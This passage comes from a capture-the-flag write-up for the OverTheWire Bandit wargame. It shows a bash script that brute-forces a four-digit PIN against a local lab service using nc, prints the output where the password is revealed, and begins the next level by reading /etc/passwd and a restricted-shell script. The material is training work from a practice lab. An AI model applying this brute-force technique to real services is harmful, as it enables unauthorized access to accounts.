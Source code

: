 The following is the shell script used:

```bash
#!/bin/bash

for i in {0000..9999}
do
        echo $(cat /etc/bandit_pass/bandit24) $i >> pincode.txt 
done

cat pincode.txt | nc localhost 30002 > brute_force.txt
```

```bash
bandit24@bandit:/tmp/tmp.UzcJSK15MY$ chmod +x bandit25.sh
bandit24@bandit:/tmp/tmp.UzcJSK15MY$ ./bandit25.sh
bandit24@bandit:/tmp/tmp.UzcJSK15MY$ cat brute_force.txt | tail
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is 
```

## Bandit Level 25 → Level 26

### Description
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

&emsp;&emsp;&ensp; NOTE: if you’re a Windows user and typically use Powershell to ssh into bandit: Powershell is known to cause issues with the intended solution to this level. You should use command prompt instead.

### Solution

```bash
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220
```

Running the command above will automatically close the session.

```bash
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext 
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```
